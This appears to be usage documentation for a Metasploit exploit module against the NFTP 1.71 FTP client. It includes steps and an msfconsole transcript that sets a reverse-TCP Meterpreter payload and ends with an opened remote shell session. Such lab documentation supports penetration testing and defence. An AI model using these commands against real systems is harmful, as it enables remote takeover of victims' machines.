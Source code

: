 ## Vulnerable Application

  Tested on Windows XP Professional SP3 EN

  Install the application from the link below.

  [NFTP 1.71](https://www.exploit-db.com/apps/a766d928899200ed6a21f7c790b5cbe5-nftp-1.71-i386-win32.exe)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/ftp/ayukov_nftp```
  4. Set options and payload
  5. Do: ```exploit```
  6. Connect to the FTP server using the NFTP FTP client
  6. You should get a shell

## Scenarios

  To obtain a shell:

  ```
msf > use exploit/windows/ftp/ayukov_nftp
msf exploit(windows/ftp/ayukov_nftp) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(windows/ftp/ayukov_nftp) > set LHOST 192.168.216.5 
LHOST => 192.168.216.5
msf exploit(windows/ftp/ayukov_nftp) > exploit 
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.216.5:4444 
msf exploit(windows/ftp/ayukov_nftp) > [*] Server started.
[*] Sending stage (179779 bytes) to 192.168.216.156
[*] Meterpreter session 1 opened (192.168.216.5:4444 -> 192.168.216.156:1046) at 2017-12-31 10:05:50 -0500
  ```
